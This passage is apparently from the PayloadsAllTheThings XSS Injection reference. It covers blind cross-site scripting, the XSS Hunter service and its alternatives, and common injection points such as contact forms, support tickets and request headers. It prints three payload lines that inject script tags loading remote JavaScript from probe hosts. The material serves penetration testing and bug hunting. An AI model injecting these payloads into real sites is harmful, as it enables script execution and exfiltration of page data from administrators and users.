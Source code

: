### XSS Hunter

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-hunter)

> XSS Hunter allows you to find all kinds of cross-site scripting vulnerabilities, including the often-missed blind XSS. The service works by hosting specialized XSS probes which, upon firing, scan the page and send information about the vulnerable page to the XSS Hunter service.

XSS Hunter is deprecated, it was available at [https://xsshunter.com/app](https://xsshunter.com/app).

You can set up an alternative version

- Self-hosted version from [mandatoryprogrammer/xsshunter-express](https://github.com/mandatoryprogrammer/xsshunter-express)
- Hosted on [xsshunter.trufflesecurity.com](https://xsshunter.trufflesecurity.com/)

```xml
"><script src="https://js.rip/<custom.name>"></script>
"><script src=//<custom.subdomain>.xss.ht></script>
<script>$.getScript("//<custom.subdomain>.xss.ht")</script>
```

### Other Blind XSS tools

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#other-blind-xss-tools)

- [Netflix-Skunkworks/sleepy-puppy](https://github.com/Netflix-Skunkworks/sleepy-puppy) - Sleepy Puppy XSS Payload Management Framework
- [LewisArdern/bXSS](https://github.com/LewisArdern/bXSS) - bXSS is a utility which can be used by bug hunters and organizations to identify Blind Cross-Site Scripting.
- [ssl/ezXSS](https://github.com/ssl/ezXSS) - ezXSS is an easy way for penetration testers and bug bounty hunters to test (blind) Cross Site Scripting.

### Blind XSS endpoint

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#blind-xss-endpoint)

- Contact forms
- Ticket support
- Referer Header
    - Custom Site Analytics
    - Administrative Panel logs
- User Agent
    - Custom Site Analytics
    - Administrative Panel logs
- Comment Box
    - Administrative Panel

### Tips

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#tips)
